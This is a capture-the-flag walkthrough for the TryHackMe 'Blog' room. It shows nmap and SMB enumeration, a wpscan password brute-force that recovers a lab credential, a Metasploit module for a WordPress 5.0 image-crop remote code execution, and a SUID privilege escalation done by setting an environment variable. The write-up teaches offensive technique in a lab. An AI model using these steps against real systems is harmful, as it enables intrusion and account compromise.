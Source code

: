 # 35 - Anonymous (ltrace / strace) to enumerate SUID binaries

Room Link --> [https://tryhackme.com/room/blog](https://tryhackme.com/room/blog)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap -Pn -n -T5 -p- -sS -vv 10.10.37.166

PORT    STATE SERVICE     REASON  VERSION
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp  open  http        syn-ack Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```
{% endcode %}

_In order to get the blog to work with AWS, you'll need to add "blog.thm" to your /etc/hosts file._

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Checking the Page source code we get 2 usernames : Billy and his Mom.

```
bjoel
kwheel
```

#### SMB enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
smbmap -H blog.thm -u 'anonymous' -p 'anonymous'

print$       NO ACCESS	  Printer Drivers
BillySMB     READ, WRITE  Billy's local SMB Share
IPC$         NO ACCESS	  IPC Service (blog server (Samba, Ubuntu))

# we have RW access to the "BillySMB" share.
```
{% endcode %}

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The images from the SMB file share were deadends, so since we have 2 usernames we can use wpscan to bruteforce for their login passwords.

#### wpscan

{% code overflow="wrap" lineNumbers="true" %}
```bash
wpscan --url http://blog.thm/wp-login.php --usernames kwheel --passwords /usr/share/wordlists/rockyou.txt
```
{% endcode %}

the WPScan was able to extract the credentials for the user kwheel. It was cutiepie1.

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-fSRqKS33MB0/YKpXlw6DvqI/AAAAAAAAwBQ/8QSDhRQU65UJ8Eacc_bn5fMs_ovxxMg7gCLcBGAsYHQ/s16000/8.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

`kwheel : cutiepie1` .

Login to  wordpress. `version 5.0` .

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*rf2EDb3asLwEe5Fp4OqnmQ.png" alt="" height="82" width="700"><figcaption></figcaption></figure>

There is an [exploit](https://www.exploit-db.com/exploits/49512) for uploading images for WordPress Core 5.0 (CVE-2019–8943). we also have a Metasploit Module for this.

`use exploit/multi/http/wp_crop_rce`&#x20;

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

`find / -perm -u=s -type f 2>/dev/null` .

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-9PLookrmx8E/YKpX7cj9jFI/AAAAAAAAwBw/c3_Wk84j9EgjlSvl15M80WrmYu0nLkkzwCLcBGAsYHQ/s16000/12.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

Running `strings /usr/sbin/checker` - and we see it is executing `/bin/bash`.&#x20;

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Running the file informs us that we are not admin users.

> /usr/sbin/checker

<figure><img src="https://miro.medium.com/v2/resize:fit:217/1*W8OiYcQCx1PqN2r6GHsdqg.png" alt="" height="71" width="316"><figcaption></figcaption></figure>

We can investigate the binary more by using either **strace** or **ltrace** as both is installed on the host.

> ltrace /usr/sbin/checker

<figure><img src="https://miro.medium.com/v2/resize:fit:349/1*JYG2x8FV2Vv_iMG56RvN0Q.png" alt="" height="82" width="508"><figcaption></figcaption></figure>

Based on the ltrace output it appears that the only check the application does is to check an environment variable called admin for a value, lets test this theory by adding a value to the admin environmental variable

> export admin=1

Now lets launch the ltrace process to check if we are successful.

> ltrace /usr/sbin/checker

<figure><img src="https://miro.medium.com/v2/resize:fit:343/1*71tMuxVEaDu6aVyde052Cw.png" alt="" height="64" width="499"><figcaption></figcaption></figure>

We can now see that the “admin” environment variable has a value of 1.

> /usr/sbin/checker

<figure><img src="https://miro.medium.com/v2/resize:fit:312/1*pSzfFiJddbjxEsF6zANgaA.png" alt="" height="103" width="454"><figcaption></figcaption></figure>

Done!

